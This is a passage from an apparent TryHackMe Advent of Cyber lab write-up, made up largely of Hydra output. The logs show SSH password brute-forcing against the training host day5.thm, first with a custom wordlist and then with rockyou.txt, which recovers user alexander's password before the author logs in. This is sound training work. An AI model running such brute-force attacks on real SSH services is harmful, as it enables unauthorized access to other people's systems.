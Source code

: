 ```sh
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-06 00:46:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 36 login tries (l:6/p:6), ~3 tries per task
[DATA] attacking ssh://day5.thm:22/
[ATTEMPT] target day5.thm - login "ubuntu" - pass "S@nta2022" - 1 of 36 [child 0] (0/0)
[ATTEMPT] target day5.thm - login "santa" - pass "S@nta2022" - 2 of 36 [child 1] (0/0)
[ATTEMPT] target day5.thm - login "santahr" - pass "S@nta2022" - 3 of 36 [child 2] (0/0)
[ATTEMPT] target day5.thm - login "santaciso" - pass "S@nta2022" - 4 of 36 [child 3] (0/0)
[ATTEMPT] target day5.thm - login "santatech" - pass "S@nta2022" - 5 of 36 [child 4] (0/0)
[ATTEMPT] target day5.thm - login "santaaccounts" - pass "S@nta2022" - 6 of 36 [child 5] (0/0)
[ATTEMPT] target day5.thm - login "ubuntu" - pass "santa101" - 7 of 36 [child 6] (0/0)
[ATTEMPT] target day5.thm - login "santa" - pass "santa101" - 8 of 36 [child 7] (0/0)
[ATTEMPT] target day5.thm - login "santahr" - pass "santa101" - 9 of 36 [child 8] (0/0)
[ATTEMPT] target day5.thm - login "santaciso" - pass "santa101" - 10 of 36 [child 9] (0/0)
[ATTEMPT] target day5.thm - login "santatech" - pass "santa101" - 11 of 36 [child 10] (0/0)
[ATTEMPT] target day5.thm - login "santaaccounts" - pass "santa101" - 12 of 36 [child 11] (0/0)
[ATTEMPT] target day5.thm - login "ubuntu" - pass "santa25" - 13 of 36 [child 12] (0/0)
[ATTEMPT] target day5.thm - login "santa" - pass "santa25" - 14 of 36 [child 13] (0/0)
[ATTEMPT] target day5.thm - login "santahr" - pass "santa25" - 15 of 36 [child 14] (0/0)
[ATTEMPT] target day5.thm - login "santaciso" - pass "santa25" - 16 of 36 [child 15] (0/0)
[ATTEMPT] target day5.thm - login "santatech" - pass "santa25" - 17 of 40 [child 0] (0/4)
[ATTEMPT] target day5.thm - login "santaaccounts" - pass "santa25" - 18 of 40 [child 6] (0/4)
[ATTEMPT] target day5.thm - login "ubuntu" - pass "santa30" - 19 of 40 [child 5] (0/4)
[RE-ATTEMPT] target day5.thm - login "santa" - pass "santa30" - 19 of 40 [child 6] (0/4)
[ATTEMPT] target day5.thm - login "santahr" - pass "santa30" - 20 of 40 [child 7] (0/4)
[RE-ATTEMPT] target day5.thm - login "santaciso" - pass "santa30" - 20 of 40 [child 5] (0/4)
[ATTEMPT] target day5.thm - login "santatech" - pass "santa30" - 21 of 40 [child 13] (0/4)
[ATTEMPT] target day5.thm - login "santaaccounts" - pass "santa30" - 22 of 40 [child 1] (0/4)
[RE-ATTEMPT] target day5.thm - login "ubuntu" - pass "santa200" - 22 of 40 [child 13] (0/4)
[RE-ATTEMPT] target day5.thm - login "santa" - pass "santa200" - 22 of 40 [child 1] (0/4)
[ATTEMPT] target day5.thm - login "santahr" - pass "santa200" - 23 of 40 [child 4] (0/4)
[ATTEMPT] target day5.thm - login "santaciso" - pass "santa200" - 24 of 40 [child 8] (0/4)
[ATTEMPT] target day5.thm - login "santatech" - pass "santa200" - 25 of 40 [child 2] (0/4)
[RE-ATTEMPT] target day5.thm - login "santaaccounts" - pass "santa200" - 25 of 40 [child 4] (0/4)
[RE-ATTEMPT] target day5.thm - login "ubuntu" - pass "santa400" - 25 of 40 [child 2] (0/4)
[ATTEMPT] target day5.thm - login "santa" - pass "santa400" - 26 of 40 [child 9] (0/4)
[ATTEMPT] target day5.thm - login "santahr" - pass "santa400" - 27 of 40 [child 3] (0/4)
[ATTEMPT] target day5.thm - login "santaciso" - pass "santa400" - 28 of 40 [child 15] (0/4)
[ATTEMPT] target day5.thm - login "santatech" - pass "santa400" - 29 of 40 [child 5] (0/4)
[ATTEMPT] target day5.thm - login "santaaccounts" - pass "santa400" - 30 of 40 [child 15] (0/4)
[REDO-ATTEMPT] target day5.thm - login "santatech" - pass "santa101" - 31 of 40 [child 8] (1/4)
[REDO-ATTEMPT] target day5.thm - login "santaaccounts" - pass "santa101" - 32 of 40 [child 13] (2/4)
[REDO-ATTEMPT] target day5.thm - login "ubuntu" - pass "santa25" - 33 of 40 [child 6] (3/4)
[REDO-ATTEMPT] target day5.thm - login "santahr" - pass "santa25" - 34 of 40 [child 3] (4/4)
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-06 00:46:46
```
Reading the room, I found username:`alexander`  is given for `ssh` login.
```sh
sami@bt:~/Documents/THM/Rooms/Advent_of_Cyber/day5$ hydra -u -V -f -l alexander -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://day5.thm
...
[22][ssh] host: day5.thm   login: alexander   password: sakura
...
```
### `ssh` login to `day5.thm`
```sh
sami@bt:~/Documents/THM/Rooms/Advent_of_Cyber/day5$ ssh alexander@day5.thm                           
alexander@ip-10-10-79-200:~$ 
```